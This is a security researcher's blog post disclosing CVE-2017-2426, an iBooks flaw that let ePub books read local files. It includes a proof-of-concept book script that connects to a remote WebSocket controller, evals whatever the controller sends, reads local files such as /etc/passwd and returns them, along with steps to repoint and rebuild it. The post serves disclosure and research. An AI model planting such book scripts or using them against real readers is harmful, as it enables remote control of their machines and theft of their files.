 ```yaml
---
layout: post
title:  "This book reads you - using JavaScript"
date:   2017-03-27 12:00:00
categories: ibooks epub
---
```


> "Yes, books are dangerous. They should be dangerous - they contain ideas." - Pete Hautman

On a previous post about ePub parsers ([This book reads you - exploiting services and readers that support the ePub book format](/epub/2017/01/25/This-book-reads-you.html)), I mentioned using scripting capabilities in ePub to perform local attacks against users. 

Apple just released a fix for one issue I reported last year in iBooks that allowed access to files on a users system when a book was opened. iBooks on El Capitan would open an ePub using the file:// origin, which would allow an attacker to access the users file system when they opened a book. ([CVE-2017-2426](https://support.apple.com/en-us/HT207615))

To help demonstrate how this could be used to perform attacks against users, I added a WebSocket client to a book, so that all users who open the  book will connect back to a WebSocket controller server that will feed them arbitrary instructions. The WebSocket client in the ePub will allow access as long as the user has the book open (expectation is that it could be open for a long time, if the user is provided with something worth reading).

eg., Sending a book to a user:
![Image](/assets/ibooks/email.png)

iBooks connects to the WebSocket Controller when opening the book:
![Image](/assets/ibooks/ibooks.png)

iBooks connecting back to a WebSockets Controller. Local files can be retrieved if the reader is vulnerable to CVE-2017-2426 (file:// origin):
![Image](/assets/ibooks/controller.png)

Video demo of how this works (trying to type with one hand):

<p><iframe src="https://player.vimeo.com/video/210000247" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe></p>

This is the POC book if you want to try it yourself. You can open it in a reader like Apple iBooks or Adobe Digital Editions. 

<a href="/assets/controller/POC.epub">![Image](/assets/ibooks/ibooksico.png)</a>

Disclaimer: The POC connects to my controller, but I promise not to do anything bad. 😉

#### To modify it to point to your own controller:

* __curl https://s1gnalcha0s.github.io/assets/controller/POC.epub -o poc.epub__

* __unzip poc.epub; rm poc.epub__

eg., contents of poc.epub/EPUB/js/main.js 
{% highlight javascript %}
WebSocketController = 'ws://websocket-controller.herokuapp.com:80';

var socket = new WebSocket(WebSocketController, 'echo-protocol');
socket.onopen = function(evt) { onopen() };
socket.onmessage = function(msg) { onmessage(msg) };
socket.onclose = function(evt) { onerror() }

function onopen()
{
  message('Connected to WebSocket Controller: ' + WebSocketController);
}

function onerror()
{
  message('Unable to connect to WebSocket Controller: ' + WebSocketController);
}

function onmessage(msg)
{
  //just eval anything sent from the controller
  response = eval(msg.data);

  //send response back to controller
  socket.send(response);
}

function get(loc) {
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open('GET', 'file://' + loc,false);
  xmlhttp.send();
  
  //populate the message element
  message(xmlhttp.responseText);

  return xmlhttp.responseText;
}

function message(message) {
  document.getElementById("message").innerText = message;
  return message;
}

function showExfil() {
  get('/etc/passwd');
}
{% endhighlight %}

* __zip -r poc.epub *__

#### Node.js WebSocket Controller:

* curl https://s1gnalcha0s.github.io/assets/controller/server.js -o server.js
* npm install websocket
* node server.js

Disclosure timeline stuff:

* Dec 2016: Reported to Apple.
* Mar 2017: Fix release, and this post.

Shoutouts:

[@shhnjk](https://twitter.com/shhnjk) reported CVE-2017-2426 as well around the same time 👍. 
<br>[@mccabe615](https://twitter.com/mccabe615) ran a POC to help me confirm some issues independently. 

Thanks for reading. 👋 

[@craig](https://twitter.com/signalchaos)